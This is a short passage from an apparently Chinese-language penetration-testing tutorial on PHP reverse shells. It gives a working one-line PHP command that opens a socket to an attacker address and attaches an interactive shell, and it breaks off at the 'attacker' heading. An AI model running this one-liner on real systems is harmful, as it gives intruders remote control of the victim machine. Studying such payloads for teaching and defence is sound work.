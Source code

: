 ![img](assets/yvEa8QcwHLBXg6I.jpg) 

### 2.8.1. **PHP反弹shell**

#### 2.8.1.1. **生成反弹命令**

这里使用官网中配置，选择php即可生成反弹shell。

```
命令：php -r '$sock=fsockopen("192.168.10.20",7777);`sh -i <&3 >&3 2>&3`;'
```

![img](assets/FLfwoUqaO4W57Z1.jpg) 

#### 2.8.1.2. **攻击者**
